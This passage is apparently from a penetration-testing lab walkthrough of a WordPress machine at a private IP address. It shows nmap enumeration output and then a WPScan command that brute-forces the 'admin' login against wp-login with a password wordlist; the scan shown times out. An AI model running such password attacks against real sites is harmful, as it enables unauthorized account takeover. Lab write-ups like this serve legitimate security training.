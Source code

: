 ```
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.28
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.71 seconds
```

From the files found we can deduce that it's a website based on WordPress, from all the files with the *wp* prefix.


A very good tool to exploit WordPress vulnerabilites is ***WPScan***, which can be used as follows in order to get passwords:

!["WPScan with admin user"](images/image04.png "WPScan with admin user")

```
└──╼ $wpscan --url http://192.168.1.93 -U 'admin' -P /usr/share/wordlists/dirb/others/best1050.txt --password-attack wp-login
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________


Scan Aborted: The url supplied 'http://192.168.1.93/' seems to be down (Timeout was reached)
```
